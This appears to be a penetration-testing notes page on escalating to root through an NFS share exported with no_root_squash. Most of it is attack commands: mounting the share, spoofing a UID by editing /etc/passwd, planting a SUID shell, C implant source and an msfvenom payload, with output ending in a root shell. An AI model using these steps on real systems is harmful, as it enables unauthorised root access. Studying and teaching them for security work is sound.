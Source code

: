 # Living off the Land

## 01 - Detect

Files were made with NFS that derives the user's ID. If the user is `root`, and **root squashing** is enabled, the ID will instead be set to the `nobody` user. Whatever we have enumerated the server through active fingerprint (go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/File Server/NFS|NFS enumeration phase]] section to learn the practical methods) or we have compromised the Linux machine with least privileges.

Let's see the NFS configuration in the `/etc/exports`.

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Looks like the `/tmp` directory has `no_root_squash` enabled. Through the attacker's machine we have run as `root` and create a directory to mount point the NFS server.

## 02 - Exploit

Mount the **Network File System (NFS)** from the vulnerable Linux systme

```
userware@hackware-os:~$ sudo su
root@hackware-os:~# mkdir /mnt/nfs
root@hackware-os:~# mount -o rw,vers=2 <IP>:</directory_name> /mnt/nfs
```

### 2.1 - Spoof UID

TODO: Fill in the missing steps when spoofing the UID.

```
root@hackware-os:~# ls -l /mnt/nfs/

root@hackware-os:~# useradd -m nfsuser -s /bin/bash

root@hackware-os:~# grep <nfs_user_UID> /etc/passwd
```

The syntax as it shows.

```
root@hackware-os:~# sed -ie 's/<current_user_UID>/<target_UID_to_spoof>/g' /etc/passwd
```

Spoof the UID.

```
root@hackware-os:~# sed -ie 's/1001/1014/g' /etc/passwd
```

Switch user account then read the file.

```
root@hackware-os:~# su nfsuser

nfsuser@hackware-os:~$ id

nfsuser@hackware-os:~$ cat /mnt/nfs/file.txt
```

### 2.2 - Copy Unix Shell Prompt

We can just copy the POSIX shell prompt (`/bin/dash`) to the target.

```
root@hackware-os:~# cp /bin/dash /mnt/nfs/implant

root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

### 2.3 - Copy Implant

We can compile our binary in C language using the previous technique about taking advantage of the Cron Job to execute a SUID `/bin/bash`.

```
root@hackware-os:~# cat implant.c
int main() {
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
root@hackware-os:~# gcc implant.c -o implant
```

We can either generate a `msfvenom` payload.

```
root@hackware-os:~# msfvenom -p linux/x86/exec cmd="/bin/bash -p" -f elf -o /mnt/nfs/implant
```

Change file permissions.

```
root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

Now if we return to the compromised machine you can see it has a sticky bit of SUID that can be taken advantaged of all because of enabling the `no_root_squash` from the NFS configuration.

```
root@hackware-os:~# ls -lh /mnt/nfs/implant
-rwsr-sr-x 1 root root 16K Jan 21 20:29 /mnt/nfs/implant
```

Now if we check on the compromised target side we can see our shell that has been successfully copied via root

```
$ ls -lh /home/ubuntu/sharedfolder/
total 16K
-rwsr-sr-x 1 root root 16K Jan 22 01:29 implant
$ /home/ubuntu/sharedfolder/implant -p
# whoami
root
```

## 03 - Cleanup

```
# exit
$ whoami
user

root@hackware-os:~# rm /mnt/nfs/implant
root@hackware-os:~# umount /mnt/nfs
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/File Server/NFS|Manual NFS: Network Protocols]]

- [Hacktricks: NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)